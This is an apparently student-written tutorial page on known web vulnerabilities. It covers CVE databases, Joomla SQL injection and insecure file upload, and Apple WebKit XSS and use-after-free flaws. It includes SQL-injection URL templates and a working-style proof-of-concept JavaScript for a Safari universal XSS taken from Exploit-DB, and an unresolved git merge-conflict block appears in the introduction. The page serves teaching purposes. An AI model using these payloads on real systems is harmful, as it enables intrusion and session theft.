



Known Vulnerabilities
=====================

*Written by Nathan, Edited by Taylor and Collin.*

Introduction
------------
<<<<<<< HEAD
There are many examples of known vulnerabilities regarding web security. 
Although some fixes are easy to implement with a quick Google search, others 
take time and effort to correct based on the programmer's individual situation.
With that in mind, here are examples of known security vulnerabilities and how 
to combat each issue.
=======
>>>>>>> e985b8a78a408333723952673f3a3ff97ac17af6

Known vulnerabilities are code creations that are known to cause unwanted and 
unintended effects. Because of the multitude of ways that websites can be 
attacked, web security is an ongoing fight between security developers and 
hackers. These security vulnerabilities can include a wide variety of exposures, 
including cross site scripting, SQL injection, insecure file uploads, 
authentication bypass, and many, many more. To keep things organized, the 
internet contains dozens of CVE (Common Vulnerabilities and Exposures) databases 
that are filled with examples of issues other people have found in certain websites. 

Why Release the Vulnerabilities to a Database?
----------------------------------------------

When the vulnerability is placed in the database, the developer isn't the only 
one who can make a query. Because the CVE databases are public, hackers can find 
the information just as easily, making the vulnerability a race between the 
developer and the hacker. This brings up the question: why would anyone want to 
create a database of known vulnerabilities? It's much easier to commit the 
attack than to patch a solution, test it, and push it to the server. 

Fortunately, the vulnerabilities are oftentimes placed in 
the database by the developer after the vulnerability has been patched. This is 
done to tighten security on applications being actively developed by other 
security experts. The experts can find common issues that have been discovered
by their like-minded peers, then implement the solutions into their own 
application. That being said, no software has been proven to be airtight, and 
vulnerabilities are being released every day to help combat mischievous 
attackers. These applications can be developed by anyone from small, upcoming 
businesses to software powerhouses. Below are two applications that are 
known to have vulnerabilities, including information on how to combat them. 

Joomla!
-------

Joomla! is a content management system that deals with website creation and 
distribution. A variety of sites have been created with Joomla, including 
Lipton Ice Tea, Lazarex Cancer Foundation, Michael Phelps' Store, and many more
[JOO]_. Because their product has been used to create millions of websites, 
security should be a primary concern to protect their partners and their 
partners' users. That being said, there is an extensive list in the Exploit 
Database with recent vulnerabilities with the Joomla application. Known 
vulnerabilities include:

**SQL Injection**

Joomla MSG (My Personal Messages) is a way in which users are able to 
communicate with one another through a website. An exploit was found that 
allowed for an attacker to log in as another user by appending the default 
message website path with SQL queries, resulting in an attacker being able to 
view other user's messages. 
`Here <http://2017-web-development.readthedocs.io/en/latest/sql_injection/sql_injection.html>`_ 
is a link with more information regarding SQL injections. Below is an example of 
how the SQL injection could be implemented into a URL to access another person's 
messages in Joomla MSG [EDB]_.::

	# View someone else's messages
	http://localhost/[PATH]/index.php?option=com_mymsg&view=msg&filter_box=[Insert_SQL_Here]
	# Reply as someone else
	http://localhost/[PATH]/index.php?option=com_mymsg&layout=edit&reply_id=[Insert_SQL_Here]

To protect against this, the web application should have steps in place to 
remove system database privileges from normal users. This will prevent an 
attacker from making their own queries into the database, assuming they haven't 
found a way to bypass the authentication of the database. 

**Insecure File Upload**

The default Joomla Event Manager (JEM) allows for an authenticated user to 
upload HTML and HTM files as an attachment. If an attacker was to upload the 
files containing malicious Javascript coding, a victim would be able to 
download said files. This would put them at risk to whatever hack the attacker 
created. More information on insecure file upload can be found 
`here <http://2017-web-development.readthedocs.io/en/latest/directory_traversal/directory_traversal.html>`_. In order to prevent this type of vulnerability, the 
JEM should restrict file uploads to valid files of a certain type.

Apple
-----

Apple is a large, multibillion-dollar company that offers a variety of 
services. One of these services includes Apple WebKit, a web browser engine 
used by OS X applications including Safari [AWK]_. Developers can use Apple WebKit to create their own web browsers. There are several past 
vulnerabilities found with Apple WebKit, including the following:

**Cross Site Scripting**

Cross Site Scripting (or XSS) is a vulnerability that is usually found within 
web applications. An attacker using XSS can inject their script to a normal 
website, which unknowingly passes the malicious script to the user [XSS]_. The 
script language is usually Javascript due to nearly every website using some 
form of it. The script can then read the information that the user's computer 
transmits to the website, including location and cookies. A further description 
of XSS can be found 
`here <http://2017-web-development.readthedocs.io/en/latest/xss/xss.html>`_.

Apple's WebKit engine (specifically on Safari 10.0.2) is vulnerable to this 
type of attack. The code attacks the FrameLoader::clear function that clears the
user's screen. XSS is then injected into the unload event handler with 
Javascript to execute whatever function the attacker desires. The code looks 
similar to this [EDB]_.::

	function main() {
	    let f = document.body.appendChild(document.createElement("iframe"));
	     
	    let a = f.contentDocument.documentElement.appendChild(document.createElement("iframe"));
	    a.contentWindow.onunload = () => {
	        let b = f.contentDocument.documentElement.appendChild(document.createElement("iframe"));
	        b.contentWindow.onunload = () => {
	            f.src = "javascript:''";
	 
	            let c = f.contentDocument.documentElement.appendChild(document.createElement("iframe"));
	            c.contentWindow.onunload = () => {
	                f.src = "javascript:''";
	 
	                let d = f.contentDocument.appendChild(document.createElement("iframe"));
	                d.contentWindow.onunload = () => {
	                    f.src = "javascript:setTimeout(eval(atob('" + btoa("(" +function () {
	                        alert(document.location);
	                    } + ")") + "')), 0);";
	                };
	            };
	        };
	    };
	 
	    f.src = "https://abc.xyz/";
	}
	 
	main();

**Use After Free**

Use after free is an issue that targets memory corruption, attempting to access 
memory after it has been freed by the RAM. This attack can cause the 
application, or web browser, to crash. In more serious instances, this 
vulnerability can lead to the attacker remotely executing code on the user's 
computer [UAF]_. This vulnerability was found in regards to Apple's WebKit in 
the HTMLFormElement::reset() function. There was a flaw in how the software 
accessed the associated elements variable, allowing it to be modified by the
reset function. By adding custom elements to the variable while it is iterated, 
the already-existing elements are pushed forward, letting the attacker execute 
his or her own data [EDB]_. 

Prevention of Known Vulnerabilities
-----------------------------------

In order to protect your web projects, there are plenty of companies that 
perform security tests that spot weak points in your code. They can pull from 
CVE databases in order to attack your code in every which way, letting you know 
exactly how attackers will attempt to breach your security. Utilizing their 
services, as well as performing security tests of your own, is paramount in 
creating a safer, more secure internet. There are also update options offered 
by many CVE database sites, notifying you of any recent breaches in applications 
like yours. Therefore, using these databases and checking for past security 
exploits is the best way to prevent attackers from manipulating your website via 
known vulnerabilities. 

Works Cited
-----------
.. [JOO] "`Joomla.org." <https://www.joomla.org/>`_ Joomla! N.p., n.d. Web. 24 Feb. 2017.
.. [EDB] "`Offensive Security’s Exploit Database Archive." <https://www.exploit-db.com/>`_ Exploits Database by Offensive Security. N.p., n.d. Web. 24 Feb. 2017. 
.. [UAF] Stroud, Forrest. "`Use After Free." <http://www.webopedia.com/TERM/U/use-after-free.html>`_ What Is Use After Free? Webopedia Definition. N.p., n.d. Web. 26 Feb. 2017."
.. [AWK] "`WebKit." <https://webkit.org/>`_ WebKit. N.p., n.d. Web. 24 Feb. 2017.
.. [XSS] "`What Is Cross-site Scripting and How Can You Fix It?" <https://www.acunetix.com/websitesecurity/cross-site-scripting/>`_ Acunetix. N.p., n.d. Web. 25 Feb. 2017.